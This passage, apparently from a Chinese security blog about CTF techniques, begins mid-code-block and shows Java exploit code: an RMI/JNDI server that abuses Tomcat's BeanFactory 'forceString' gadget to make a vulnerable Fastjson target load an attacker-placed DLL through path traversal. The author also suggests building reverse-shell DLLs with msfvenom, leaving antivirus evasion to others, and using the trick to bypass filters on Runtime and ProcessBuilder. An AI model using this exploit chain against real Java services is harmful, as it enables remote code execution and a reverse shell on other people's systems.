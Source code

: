 ```json
        JSON.parse(json);
    }
    public static String fileToBase64(String filePath) throws IOException {
        byte[] fileData = Files.readAllBytes(Paths.get(filePath));
        return Base64.getEncoder().encodeToString(fileData);
    }
}
```

JNDI：

```java
public class JNDI_loadDLL {
    public static void main(String[] args) throws Exception {
        LocateRegistry.createRegistry(1099);
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        ResourceRef ref = new ResourceRef("com.sun.glass.utils.NativeLibLoader", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=loadLibrary"));
        ref.add(new StringRefAddr("a", "../../../../../calc_x64"));
        InitialContext context = new InitialContext(env);
        context.bind("remoteImpl", ref);
    }
}
```

JNDI绕过高版本加载dll：

可以考虑直接调用NativeLibrary#load，不过间接调用了System.load和Runtime.load0，似乎没有什么用

![fastjson_jndi加载DLL](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/fastjson_jndi%E5%8A%A0%E8%BD%BDDLL.gif)



总之有写文件场景的都可以考虑一下写dll

也可以用msfvenom做反弹shell的dll或者so等进一步注入

至于dll的免杀就交给pwn手。不知道这种思路有没有利用价值（好像这种有文件落地更脑弹？），不过打CTF单纯被过滤Runtime、ProcessorBuiler等情况下还是可以考虑一下。一点自己学习的小99

